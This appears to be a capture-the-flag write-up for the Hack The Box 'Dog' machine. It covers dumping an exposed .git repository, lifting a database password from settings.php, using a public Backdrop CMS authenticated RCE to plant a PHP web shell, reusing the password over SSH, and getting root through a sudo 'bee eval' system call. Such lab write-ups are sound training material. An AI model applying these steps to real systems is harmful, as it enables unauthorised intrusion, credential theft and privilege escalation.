 # DOG machine - HTB LABS

We have 2 port open
- 22
- 80 

on the port 80 we have CMS backdrop with 2 pages:
- Login
- About

About page contains only images & text, so nothing to exploit. But Login contains 2 input (email & password) so we can login after get some creds

if you Fuzz directory we can discover "/.git", so go to upload all source code:


Wget all files on .git:
```
wget -I .git -r http://10.10.11.58/.git
```

get the path of Master Hash:
```
cat HEAD
```

Get .zip of source code:
```
git archive --format zip --output "source.zip" <MASTER HASH>
```

After all it, we can explore some files and in settings.php at the racine we can view 

```
$database = 'mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop';
```

After get the password, now go found the user in "cat 10.10.11.58/10.10.11.58/.git/dog/files/config_83dddd18e1ec67fd8ff5bba2453c7fb3/active/update.settings.json 
```
{
    "_config_name": "update.settings",
    "_config_static": true,
    "update_cron": 1,
    "update_disabled_extensions": 0,
    "update_interval_days": 0,
    "update_url": "",
    "update_not_implemented_url": "https://github.com/backdrop-ops/backdropcms.org/issues/22",
    "update_max_attempts": 2,
    "update_timeout": 30,
    "update_emails": [
        "tiffany@dog.htb"
    ],
    "update_threshold": "all",
    "update_requirement_type": 0,
    "update_status": [],
    "update_projects": []
}
```

In the Website we can get the version of the CMS BackDrop: 1.27.1 and this version contains critical Authenticated RCE:
"https://www.exploit-db.com/exploits/52021"

to launch the RCE go execute with python3 and the code generate file zip with:
- shell.info
- shell.php

Now upload your TAR file in upload page on th website and go in this url:
"http://10.10.11.58/modules/shell/shell.php"

Now in the web shell check the /home/user and we can see this user:
- johncusack

try to connect on ssh with this user and the same password of tiffany email
```
ssh johncusack@10.10.11.58
```

USER.TXT FLAGGED !

For the next step, check sudo permission for the current user:
```
sudo -l
```

we found bee tool with the sudo permission, check all command of bee:

```
sudo bee --help
```

In "Advanced" mode you can see "eval" argument, when eval() module is used often you have RCE vulnerability:
```
sudo /usr/local/bin/bee eval "system('su - root');" --root=/var/www/html
```

and you have root.txt in /root

ROOT.TXT FLAGGED !
